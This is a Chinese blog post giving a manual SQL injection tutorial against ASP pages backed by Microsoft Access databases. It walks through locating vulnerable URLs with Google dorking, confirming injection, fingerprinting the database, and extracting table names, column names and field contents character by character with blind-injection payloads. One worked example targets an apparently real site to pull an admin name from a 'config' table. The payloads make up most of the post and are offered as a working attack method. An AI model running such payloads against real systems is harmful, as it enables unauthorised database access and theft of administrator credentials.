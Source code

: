 ```yaml
---
layout:     post
title:      ACCESS手工注入
subtitle:   
date:       2018-07-16
author:     Waldo
header-img: img/post-bg-比基尼2.jpg
catalog: true
tags:
    - web安全 
    
---
```


# 判断是否存在注入
找到一个类似于http://www.xxx.com/xx.asp?id=xxxx的URL后（用Google Hack搜索），加 ‘ (单引号)，报错，则该网站可能就存在注入漏洞了，然后分为 提交 http://www.xxx.com/xx.asp?id=xxxx and 1=1和http://www.xxx.com/xx.asp?id=xxxx and 1=2 如果它们两返回的页面不同就说明存在注入漏洞

# 判断后台数据库的类型

```
http://www.xxx.com/xx.asp?id=xxxx and user>0
```

如果是ACCESS数据库，就会在返回的错误里面含有“Microsoft JEF Database”关键字

![image.png](https://upload-images.jianshu.io/upload_images/7216746-5ac31c3a30359ceb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

如果是MSSQL数据库，就会在返回的错误提示里面含有“SQL Sever”关键字

![image.png](https://upload-images.jianshu.io/upload_images/7216746-e1a7ac07dd5e5fd9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 猜解表名

```
http://www.xxx.com/xx.asp?id=xxxx and exists (select * from 表名)
```
或
```
http://www.xxx.com/xx.asp?id=xxxx and exists (select count from 表名)
```

若页面返回正常，则说明存在这个表

# 猜解列名

```
http://www.xxx.com/xx.asp?id=xxxx and exists (select 列名 from 表名)
```
或
```
http://www.xxx.com/xx.asp?id=xxxx and exists (select count(列名) from 表名)
```
若页面返回正常，则说明存在这个列

# 猜解列的长度

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 len(列名) from 表名) > x
```
其中x是数字，我们需要变换这个x就是列的长度值。

例：若提交
```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 len(adminname) from config)>1、>2、>3、>4都返回正常，
猜到>5时出现错误提示，说明列的长度为5
```
注：变换top后的数字就可以猜解这个列的第N行长度

```
http://www.xxx.com/xx.asp?id=xxxx and (select top N len(adminname) from config)>x
```
这就是猜解adminname列的第N行长度

# 猜解列的内容

介绍两个函数：

1. Mid函数：Mid(列名,N,1)函数截取第N位字符

2. ASC函数：ASC(Mid(列名,N,1))函数得到第N位字符的ASCII码

```
http://www.xxx.com/xx.asp?id=xxxx and (select top 1 asc(mid(列名,列数N,1)) from 表名) > x
```

注：1. top后的数字为该列的第N行，x为ASCII码，列数N就是在这一列中的第几个数字

例：如果提交

```
http://www.cctv5.com.cn/TVPLAY.ASP?id=7 and (select top 1 asc(mid(adminname,1,1)) from config) >50，返回正常，
提交>100返回正常，提交>80返回正常，提交>96返回正常，提交>97返回错误，所以adminname列的第一行记录中的第一个字母的ASCII码为97，也就是字母a
```
